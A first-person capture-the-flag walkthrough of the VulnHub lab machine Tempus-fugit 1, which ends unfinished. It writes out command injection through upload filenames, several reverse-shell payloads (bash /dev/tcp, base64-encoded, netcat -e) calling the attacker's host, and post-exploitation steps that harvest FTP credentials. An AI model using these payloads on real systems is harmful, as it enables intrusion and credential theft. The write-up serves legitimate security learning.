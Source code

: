 ﻿# Tempus-fugit 1

This is the first time I am attempting a CTF. I've gone through walkthroughs of few CTFs before. The resources I follow are hackingarticles.in and [ippsec.rocks](https://ippsec.rocks/?#). The box can be downloaded from [vulnhub](https://www.vulnhub.com/entry/tempus-fugit-1,346/). This is a few months old box.


# Network Scanning

I've imported the .ova file using virtualbox and put both the kali vbox and the Tempus-fugit vbox (target) in the same NATNetwork. The ip target machine can be found using `netdiscover` tool. Since my kali has an ip of 10.0.2.12 and both are in the subnet 10.0.2.0/24, we can use the range parameter in netdiscover to easily find the ip `netdiscover -r 10.0.2.0/16`. From the list of ips found, we can identify the target machine. We can then use `nmap` to find what ports are open on the target machine (its 10.0.2.14 in my case)
```
nmap -sC -sV -oA nmap/nmap 10.0.2.14
# Nmap 7.70 scan initiated Mon Feb 24 02:38:03 2020 as: nmap -sC -sV -oA nmap/nmap 10.0.2.14
Nmap scan report for 10.0.2.14
Host is up (0.00014s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.15.3
|_http-server-header: nginx/1.15.3
|_http-title: Tempus Fugit
|_http-trane-info: Problem with XML parsing of /evox/about
MAC Address: 08:00:27:22:DA:48 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 24 02:38:11 2020 -- 1 IP address (1 host up) scanned in 8.01 seconds
```
# Enumeration
From nmap data, we can see that there is a nginx web server hosted on port 80 and we can connect to it using http. The site looks pretty simple. It has a main page and upload page. There is nothing interesting from the page source, except that it looks like a template. The stuff section of the page has many cards which pop up modals. Nothing interesting here.
![clicking the cards pop up these modals](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/stuff.png)
The about section mentions something about an ftp server where scripts can be uploaded. This might be out point of injection.
![about section of the page](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/about.png)
Next, the page has a contact us with multiple forms for name, mail, etc. But whatever the input is, the site responds with an error saying the mail server is not responding
![contactus](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/contactus.png)
The upload page has two buttons to browse and upload files. After selecting a file, the file name gets displayed on the page. So, we can try any XSS vectors here
![browse](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/browse.png)
after the files is uploaded, the contents of the file are displayed on the page. This is interesting, so i tried to check if it executes if there's a command inside a file. But it just shows the command instead.
![command](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/command.png)
Since its just showing the contents of file, the server might just be using `cat` on the file name to do this. If that's the case, we can append a command in the filename which gets executed after `cat`. To try this, I uploaded a file 'new3.txt;whoami'. Infact, we can append multiple commands seperated by ';'. This was successful and the command `whoami` gets executed and returns root
![whoami- root](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/whoami.png)
this can be used as a command injection point to spawn a reverse shell. The best way to iterate is using burp suite's repeater. Here are some observations from uploading files with various commands in the name:
* there are two requests during the upload- a POST request with filename parameter. The response to this is a session cookie from the server, which will be passed in the second request (GET). The response to this is a html with the command executed. In case of `ls` after filename, the output html has the following:
![ls](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/ls.png)
* the cookie changes everytime there is a new request
* only .txt and .rtf files can be uploaded. The server gives an error saying that only these types are accepted
* reverse shell can be created using bash - `bash -i >& /dev/tcp/10.0.2.12/9001 0<&1`, but unix doesn't allow filenames to have '/' in them. So we cannot use this. I've tried exporting command to an env variable and using it while creating a file, didn't help.
* But we don't have to create a file. Since its a parameter in the request, we can modify the request in burp repeater. But still this doesn't work and gives a 500 error![500 error](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/500.png)
* if there is any '.' in the command, server rejects it saying that its not a text file. So, we cannot add ip addresses in the command
* there are numerous ways to get a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), but all these methods need to have ip address in the command. 
* one way to eliminate the '.' and '/' is by encoding the command. `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTIvOTAwMSAwPiYxCg==` is the base64 encoded version of `bash -i >& /dev/tcp/10.0.2.12/9001 0<&1`. I created a file and with the name `“new.txt;echo ‘YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTIvOTAwMSAwPiYxCg==’ | base64 -d > revShell”`. The plan here is to create a file (revShell) in server and then execute it with the next file - `"new.txt;bash revShell"`.  And at the same time, use `nc` to start a listener on the same port (9001) on kali using `nc -lvnp 9001`. Unfortunately, this didn't work and i don't recall why.
* I tried the same process with `nc` based reverse shell (`nc -c bash 10.0.2.12 9001`) as well. This time, the session has established, but I was unable to run any commands and the server returned error *cannot connect to FTP-server*
![session established](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/session.png)
![FTP timeout](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/ftp-server.png)
* one more thing I wanted to try was appending another command to the filename, this time with a .txt extension. I used the filename "new.txt;nc 10.0.2.12 9001 -e bash; a.txt". This should work even though the last command `a.txt` doesn't make any sense. And it worked. This is the first time i got a reverse shell and i was too excited
![shell!! yay](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/firstshell.png)
- we can use `python -c 'import pty;pty.spawn("/bin/bash")'` to prettify the terminal
- I've also used `stty raw -echo` on the kali terminal so that I can use tabbing on this shell

The next step is to get the root flag, which is usually in /root. There's a message.txt file, but it says 'you are not done yet'
![damn!](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/message.png)
Since there are some files we found with `ls` command, lets examine the files.
* most of the files are pretty normal, js and htmls
* the interesting on is the main.py, which runs a flask app to serve the uploads page. All the checks in filenames we discovered so far are coming from this file.
* it also has the credentials of ftp server. We can use it later at some point
![ftp-creds](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/ftp-creds.png)
* to see what's going on the server, I ran [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). It's an amazing tool which enumerates all the useful data on the machine.
* From the linenum output, we can see that we're inside a docker container. This makes sense as there was a docker message during target bootup
![docker](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/docker.png)
* there are few file in the root directory- there's another file *entrypoint.sh* which looks to be creating *nginx.conf* file. There's also a *start.sh* script which runs another script */app/prestart.sh*
* another interesting grab from linenum is the history files. *.python_history* has some interesting information
![enter image description here](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/pyhistory.png)
* the arp table from linenum shows few ips![enter image description here](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/arp.png)
* The FTP port should be open on one of these ips. We can check this using `nc -zv 172.19.0.100 21` command
![nc](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/nc-zv.png)
* since 172.19.0.12 has port 21 open, we can connect it using ftp. From the conf files linenum found, there are lftp files. So, server might be using lftp to connect to the FTP server. Using the credentials from main.py, I was able to login. Apart from all the files I earlier uploaded while getting reverse shell, there is a *cmscreds.txt* file which has some credentials
![cmscreds](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/cmscreds.png)
* linenum also shows *resolv.conf* which has interesting 
![resolv](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/resolv.png)

I spent a lot of time after this point but didn't find any leads. So, i looked up other walkthroughs where people used `add apk nmap` to install nmap and scan the ips for open ports.


